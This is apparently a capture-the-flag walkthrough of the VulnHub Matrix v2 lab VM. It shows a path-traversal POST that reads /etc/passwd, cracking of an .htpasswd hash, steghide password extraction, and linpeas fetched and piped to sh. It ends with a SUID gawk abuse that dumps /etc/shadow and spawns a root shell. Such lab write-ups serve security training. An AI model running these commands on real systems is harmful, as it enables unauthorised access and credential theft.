

[https://www.vulnhub.com/entry/matrix-2,279/](https://www.vulnhub.com/entry/matrix-2,279/)

**Description:** Matrix v2.0 is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

**Difficulty:** Intermediate

**Flags:** Your Goal is to get root and read /root/flag.txt

**Networking:**
 * DHCP: Enabled
 * IP Address: Automatically assigned

Hint: Follow your intuitions ... and enumerate!

\
Run `nmap -A` scan against all TCP ports:

```shell
└─$ nmap -A -p- 192.168.5.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 22:21 EDT
Nmap scan report for 192.168.5.106
Host is up (0.0030s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome in Matrix v2 Neo
1337/tcp  open  ssl/http           nginx
|_http-title: 401 Authorization Required
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Welcome to Matrix 2
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
12320/tcp open  ssl/http           ShellInABox
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12321/tcp open  ssl/warehouse-sss?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12322/tcp open  ssl/http           nginx
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| tls-nextprotoneg: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_file_view.php
|_http-title: Welcome in Matrix v2 Neo
```

\
Checking out `http://192.168.5.106:12322/file_view.php` returned a blank page. In the page source it shows:

> <!– Error file parameter missing..!!! -->

\
Using `Burpsuite` we can see that the header information is using a `GET request` instead of a `POST`.



Had trouble converting GET to a POST request using Burp Suite, not sure why but it wasn't changing it to POST so had to use curl instead.


\
Using `curl` lets us make a `POST` request

```shell
└─$ curl -X POST -k https://192.168.5.106:12322/file_view.php -d "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
...
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```


Note users: testuser & n30


\
Login to `ShellInABox` with `testuser:testuser` @ https://192.168.5.106:12320/

Check web root directories for files:

```shell
└─$ ls -lah /usr/share/adminer/adminer/                                                                                                                                              
total 28K                                                                                                                                                                          
drwxr-xr-x 4 root root 4.0K Dec 14  2018 .                                                                                                                                         
drwxr-xr-x 3 root root 4.0K Dec  8  2018 ..                                                                                                                                        
drwxr-xr-x 2 root root 4.0K Dec  8  2018 css                                                                                                                                       
-rw-r--r-- 1 root root  196 Dec  8  2018 file_view.php                                                                                                                             
-rw-r--r-- 1 root root 3.0K Dec 14  2018 index.php                                                                                                                                 
drwxr-xr-x 2 root root 4.0K Dec  8  2018 js                                                                                                                                        
-rw-r--r-- 1 root root   38 Dec  8  2018 robots.txt

└─$ ls -lah /var/www/
total 48K                                                                                                                                                                          
drwxr-xr-x  4 root root 4.0K Dec 14  2018 .
drwxr-xr-x 12 root root 4.0K Dec  7  2018 ..
drwxr-xr-x  4 root root 4.0K Dec 14  2018 4cc3ss
-rw-r--r--  1 root root  25K Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root 3.6K Dec 14  2018 index.php                                                                                                                                
drwxr-xr-x  2 root root 4.0K Dec  8  2018 p4ss
```

\
Obtain Tr1n17y user password hash from .htpasswd file:

```shell
└─$ cat /var/www/p4ss/.htpasswd                                                                                                                                                      
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

\
Crack `Tr1n17y` password hash:

```shell
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --rules htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (Tr1n17y)
1g 0:00:00:01 DONE (2024-07-14 21:42) 0.7407g/s 14791p/s 14791c/s 14791C/s checkmate..jaleesa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

\
Navigate to: https://192.168.5.106:1337/ – note `n30` is in bright red font.. could this be a password?




\
Download hidden jpeg (noted from web root directory listing above): `https://192.168.5.106:1337/h1dd3n.jpg`

\
Install `steghide` on Kali and run it against hidden jpeg, using `n30` as password:

```shell
└─$ sudo apt install steghide

└─$ steghide extract -sf h1dd3n.jpg 
Enter passphrase: n30
wrote extracted data to "n30.txt".

└─$ cat n30.txt 
P4$$w0rd
```

\
Login to `ShellInABox` with `n30:P4$$w0rd` @ https://192.168.5.106:12320/

\
Run `Linpeas`:

```shell
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

\
Of note in `Linpeas` output - morpheus SUID binary in `/usr/bin`:

```shell
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                 
╚════════════════════════════════════╝                                                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                   
strace Not Found                                                                                                                                                                   
You own the SUID file: /tmp/bash
-rwsr-xr-x 1 root root 11K Jan 22  2017 /usr/lib/authbind/helper
-rwsr-xr-x 1 root root 431K Aug 21  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-r-sr-x--- 1 root n30 647K Dec  8  2018 /usr/bin/morpheus (Unknown SUID binary!)
```

\
`/usr/bin/morpheus` appears to be the gawk binary:

```shell
n30@Matrix_2 ~$ /usr/bin/morpheus 
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...                                                                                                             
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...                                                                                                               
POSIX options:          GNU long options: (standard)                                                                                      

...

To report bugs, see node `Bugs' in `gawk.info', which is section `Reporting Problems and Bugs' in the printed version.                                                                       

gawk is a pattern scanning and processing language.
By default it reads standard input and writes standard output.                                                                                                                               
Examples:                                                                                                                                                                          
        gawk '{ sum += $1 }; END { print sum }' file                                                                                                                               
        gawk -F: '{ print $1 }' /etc/passwd      
```

\
Use the `gawk` SUID escalation vector to read `/etc/shadow`, as shown in GTFO bins (https://gtfobins.github.io/gtfobins/gawk/)

```shell
n30@Matrix_2 ~$  LFILE=/etc/shadow                                                                                                                                                                     
n30@Matrix_2 ~$ /usr/bin/morpheus '//' "$LFILE"
root:$6$d6i7/gdA$w/VkPrhMPBcRgaelZs0gwuugQ0M6MLxj8qSPjCv6zzdHIJwPmA1NKBn8LBHdRiGIjz3HyCFdVmD.nq0yJZvh90:17878:0:99999:7:::                                                         
...
```

\
Tried to crack this password hash with `rockyou.txt` but had no success

\
Use the `gawk` escalation vector to spawn a root shell, as shown in GTFO bins (https://gtfobins.github.io/gtfobins/gawk/):

```shell
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'                                                                                                                      
# id          
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)
```

\
Cat the flag in `/root`:

```shell
# cat /root/flag.txt

╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐                                                                                                                      
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐                                                                                                                      
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o                                                                                                                     
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                  
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                   
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘                                                                                                                                 
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                                 
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                                  
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o                                                                                                                                                
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐                                                                                                                                                        
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐                                                                                                                                                        
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘                                                                                                                                                        
╔═╗╦╔═╔═╗                                                                                                                                                                          
╠═╣╠╩╗╠═╣                                                                                                                                                                          
╩ ╩╩ ╩╩ ╩                                                                                                                                                                          
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐                                                                                                                                             
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64                                                                                                                                           
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘  
```